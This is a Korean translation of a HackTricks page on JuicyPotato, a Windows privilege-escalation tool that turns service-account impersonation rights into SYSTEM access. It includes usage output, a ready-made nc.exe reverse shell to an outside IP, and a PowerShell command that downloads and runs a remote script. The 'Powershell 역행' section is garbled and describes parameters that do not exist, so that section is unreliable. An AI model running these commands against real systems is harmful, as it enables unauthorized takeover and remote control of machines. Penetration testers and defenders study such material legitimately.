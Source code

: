 # JuicyPotato

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>에서 <strong>제로부터 영웅이 될 때까지 AWS 해킹을 배워보세요</strong>!</summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 광고하고 싶으신가요**? 아니면 **PEASS의 최신 버전에 액세스하거나 HackTricks를 PDF로 다운로드**하고 싶으신가요? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인해보세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견해보세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **해킹 팁을 공유하려면 PR을** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **에 제출하세요.**

</details>

{% hint style="warning" %}
**JuicyPotato는** Windows Server 2019 및 Windows 10 빌드 1809 이후에서는 작동하지 않습니다. 그러나 [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)를 사용하여 **동일한 권한을 활용하고 `NT AUTHORITY\SYSTEM` 수준의 액세스를 얻을 수 있습니다**. _**확인:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (골든 권한 남용) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

[_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)의 달콤한 버전으로, 즉 **Windows 서비스 계정에서 NT AUTHORITY\SYSTEM으로의 로컬 권한 상승 도구**입니다.

#### juicypotato를 다음에서 다운로드할 수 있습니다. [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### 요약 <a href="#summary" id="summary"></a>

**[juicy-potato Readme에서](https://github.com/ohpe/juicy-potato/blob/master/README.md):**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) 및 [그 변형](https://github.com/decoder-it/lonelypotato)은 [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [서비스](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126)를 기반으로한 권한 상승 체인을 활용합니다. 이는 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한이 있는 경우에만 가능합니다. Windows 빌드 검토 중에 `BITS`가 의도적으로 비활성화되고 포트 `6666`이 사용 중인 설정을 발견했습니다.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)를 무기화하기로 결정했습니다: **Juicy Potato를 만나보세요**.

> 이론은 [Rotten Potato - Service Accounts에서 SYSTEM으로의 권한 상승](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)을 참조하고 링크 및 참조 사슬을 따르세요.

우리는 `BITS` 이외에도 여러 COM 서버를 남용할 수 있다는 것을 발견했습니다. 이들은 다음과 같은 조건을 충족해야 합니다:

1. 현재 사용자(일반적으로 "서비스 사용자"로서 위임 권한을 가진 사용자)에 의해 인스턴스화될 수 있어야 함
2. `IMarshal` 인터페이스를 구현해야 함
3. 상승된 사용자(SYSTEM, Administrator 등)로 실행되어야 함

일부 테스트를 거친 후에 우리는 여러 Windows 버전에서 [흥미로운 CLSID 목록](http://ohpe.it/juicy-potato/CLSID/)을 얻고 테스트했습니다.

### Juicy 세부 정보 <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato를 사용하면 다음을 수행할 수 있습니다:

* **대상 CLSID** _원하는 CLSID를 선택하세요._ [_여기_](http://ohpe.it/juicy-potato/CLSID/) _에서 OS별로 정리된 목록을 찾을 수 있습니다._
* **COM 수신 포트** _하드코딩된 6666 대신 선호하는 COM 수신 포트를 정의하세요._
* **COM 수신 IP 주소** _서버를 원하는 IP에 바인딩하세요._
* **프로세스 생성 모드** _위임된 사용자의 권한에 따라 다음 중 하나를 선택할 수 있습니다:_
* `CreateProcessWithToken` (`SeImpersonate` 필요)
* `CreateProcessAsUser` (`SeAssignPrimaryToken` 필요)
* `both`
* **실행할 프로세스** _악용에 성공한 경우 실행할 실행 파일 또는 스크립트_
* **프로세스 인수** _실행 프로세스의 인수를 사용자 정의하세요._
* **RPC 서버 주소** _은밀한 접근을 위해 외부 RPC 서버에 인증할 수 있습니다._
* **RPC 서버 포트** _외부 서버에 인증하려는 경우 유용하며 방화벽이 포트 `135`를 차단하는 경우에 사용됩니다._
* **테스트 모드** _주로 테스트 목적으로 사용되며 DCOM을 생성하고 토큰의 사용자를 출력합니다. 테스트에 대한 자세한 내용은_ [_여기를 참조하세요_](http://ohpe.it/juicy-potato/Test/)

### 사용법 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 최종 결론 <a href="#final-thoughts" id="final-thoughts"></a>

**[juicy-potato Readme에서](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts):**

만약 사용자가 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한을 가지고 있다면, 당신은 **SYSTEM**입니다.

모든 이러한 COM 서버의 악용을 방지하는 것은 거의 불가능합니다. `DCOMCNFG`를 통해 이러한 객체의 권한을 수정하는 것을 고려할 수 있지만, 힘들 것입니다.

실제 해결책은 `* SERVICE` 계정 아래에서 실행되는 민감한 계정과 애플리케이션을 보호하는 것입니다. `DCOM`을 중지하면 이 취약점을 방지할 수 있지만, 기본 운영 체제에 심각한 영향을 줄 수 있습니다.

출처: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 예시

참고: 시도할 CLSID 목록은 [이 페이지](https://ohpe.it/juicy-potato/CLSID/)를 방문하세요.

### nc.exe 역쉘 얻기
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell 역행

Powershell 역행은 Windows 시스템에서 로컬 권한 상승을 위한 기술입니다. 이 기술은 JuicyPotato라는 도구를 사용하여 실행됩니다. JuicyPotato는 COM 개체의 권한을 빈번하게 확인하는 Windows 기능을 이용하여 권한 상승을 수행합니다.

JuicyPotato를 사용하여 Powershell 역행을 수행하려면 다음 단계를 따르세요:

1. JuicyPotato를 다운로드하고 실행합니다.
2. JuicyPotato를 실행한 후, "CLSID" 매개변수를 사용하여 COM 개체의 CLSID를 지정합니다.
3. "Action" 매개변수를 사용하여 실행할 작업을 지정합니다. 예를 들어, "RunThis" 작업을 지정하면 실행할 파일의 경로를 지정해야 합니다.
4. "Argument" 매개변수를 사용하여 작업에 대한 추가 인수를 지정합니다.
5. "OutputFile" 매개변수를 사용하여 결과를 저장할 파일의 경로를 지정합니다.
6. JuicyPotato를 실행하여 Powershell 역행을 수행합니다.

Powershell 역행은 Windows 시스템에서 로컬 권한 상승을 위한 강력한 기술입니다. JuicyPotato를 사용하여 이 기술을 사용할 수 있으며, 이를 통해 시스템에서 더 높은 권한을 얻을 수 있습니다.
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 새로운 CMD 창 열기 (RDP 액세스가 있는 경우)

![](<../../.gitbook/assets/image (37).png>)

## CLSID 문제

대부분의 경우, JuicyPotato가 사용하는 기본 CLSID는 **작동하지 않고** 공격이 실패합니다. 일반적으로 여러 번 시도해야 **작동하는 CLSID**를 찾을 수 있습니다. 특정 운영 체제에 대해 시도할 CLSID 목록을 얻으려면 다음 페이지를 방문해야 합니다:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **CLSIDs 확인하기**

먼저, juicypotato.exe 외에도 몇 가지 실행 파일이 필요합니다.

[Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1)을 다운로드하여 PS 세션에 로드하고, [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)을 다운로드하고 실행하세요. 이 스크립트는 테스트할 가능한 CLSID 목록을 생성합니다.

그런 다음 [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(CLSID 목록과 juicypotato 실행 파일 경로를 변경하세요)을 다운로드하고 실행하세요. 이 스크립트는 모든 CLSID를 시도하며, **포트 번호가 변경되면 CLSID가 작동한 것입니다**.

**-c** 매개변수를 사용하여 작동하는 CLSID를 **확인**하세요.

## 참고 자료
* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

* **사이버 보안 회사**에서 일하시나요? **회사를 HackTricks에서 홍보**하거나 **PEASS의 최신 버전에 액세스**하거나 HackTricks를 **PDF로 다운로드**하고 싶으신가요? [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter**에서 저를 **팔로우**하세요 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **자신의 해킹 기법을 공유하려면** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **및** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)에 PR을 제출하세요.

</details>
